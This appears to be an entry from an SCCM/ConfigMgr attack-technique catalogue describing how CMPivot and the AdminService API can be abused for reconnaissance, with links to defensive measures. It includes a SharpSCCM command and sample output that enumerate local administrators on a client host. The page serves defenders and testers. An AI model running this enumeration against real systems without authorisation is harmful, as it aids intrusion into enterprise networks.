 # Leverage CMPivot to query information from ConfigMgr client hosts
## Code Name
- RECON02

## ATT&CK TTPs
- [TA0043 - Reconnaissance](https://attack.mitre.org/tactics/TA0043/)

## Required Privilege / Context
- Run CMPivot permission on the Collection scope
- Read permission on Collections
- Read permission on the SMS Scripts object (n/a after version 2107)
- The default scope (n/a after version 2107)
- Additional details: https://learn.microsoft.com/en-us/mem/configmgr/core/servers/manage/cmpivot#permissions

## Summary
CMPivot is part of the ConfigMgr framwework. It allows for real time collection of data from client hosts.

The data collected is based on different queries available as part of the framework.

These queries allow CMPivot users to pull data like Windows event logs, registry values, file contens, local group information, etc.

Legitimate usage of CMPivot:
1. Choose the target
2. Select the query and filters required
3. Execute query
4. Retrieve results via AdminService REST API
   
Additionally ConfigMgr now makes available the AdminService REST API that exposes methods to perform CMPivot queries through API calls.

The AdminService REST API also lets us retrieve the results of our queries.

## Impact
With the required permissions an attacker can leverage CMPivot + AdminService to deploy operations to client hosts within a ConfigMgr site.

Some of these operations allow for enumeration of:

  - active sessions
  - registry keys and values
  - local administrator group
  - arbitrary file contents

There are more than 130 queries available

## Defensive IDs
------------------------------------------
- [PROTECT04](../../defense-techniques/PROTECT04/protect04-description.md)
- [PROTECT07](../../defense-techniques/PROTECT07/protect07-description.md)
- [PROTECT08](../../defense-techniques/PROTECT08/protect08-description.md)
- [PROTECT11](../../defense-techniques/PROTECT11/protect11-description.md)
-----------------------------------------
## Examples

- Using SharpSCCM to enumerate local administrators group from the ConfigMgr client with ID 16777226
```
.\SharpSCCM.exe invoke admin-service -r 16777226 -q "Administrators" -sms site-sms -d 10

  _______ _     _ _______  ______  _____  _______ _______ _______ _______
  |______ |_____| |_____| |_____/ |_____] |______ |       |       |  |  |
  ______| |     | |     | |    \_ |       ______| |______ |______ |  |  |    @_Mayyhem

[+] Sending query to AdminService
[+] URL: "https://site-sms/AdminService/v1.0/Device(16777226)/AdminService.RunCMPivot"
[+] OperationId found: 16777463
[+] Attempt 1 of 5: Checking for query operation to complete
[+] URL: "https://site-sms/AdminService/v1.0/Device(16777226)/AdminService.CMPivotResult(OperationId=16777463)"
[+] 10 seconds until next attempt
[+] Attempt 2 of 5: Checking for query operation to complete
[+] URL: "https://site-sms/AdminService/v1.0/Device(16777226)/AdminService.CMPivotResult(OperationId=16777463)"
[+] 10 seconds until next attempt
[+] Successfully retrieved results from AdminService
Device: SITE-SERVER
ObjectClass: User
Name: MAYYHEM\CAS$
PrincipalSource: ActiveDirectory
----------------------------------------
Device: SITE-SERVER
ObjectClass: Group
Name: MAYYHEM\Domain Admins
PrincipalSource: ActiveDirectory
----------------------------------------
Device: SITE-SERVER
ObjectClass: User
Name: MAYYHEM\sccmadmin
PrincipalSource: ActiveDirectory
----------------------------------------
Device: SITE-SERVER
ObjectClass: User
Name: SITE-SERVER\Administrator
PrincipalSource: Local
----------------------------------------
[+] Completed execution in 00:00:21.1354974
```

## References
- Microsoft, CMPivot for real-time data in Configuration manger, https://learn.microsoft.com/en-us/mem/configmgr/core/servers/manage/cmpivot
- Benoit Lecours, SCCM CMPivot Query Examples, https://www.systemcenterdudes.com/sccm-cmpivot-query/
- Diego Lomellini, Lateral Movement without Lateral Movement, https://posts.specterops.io/lateral-movement-without-lateral-movement-brought-to-you-by-configmgr-9b79b04634c7
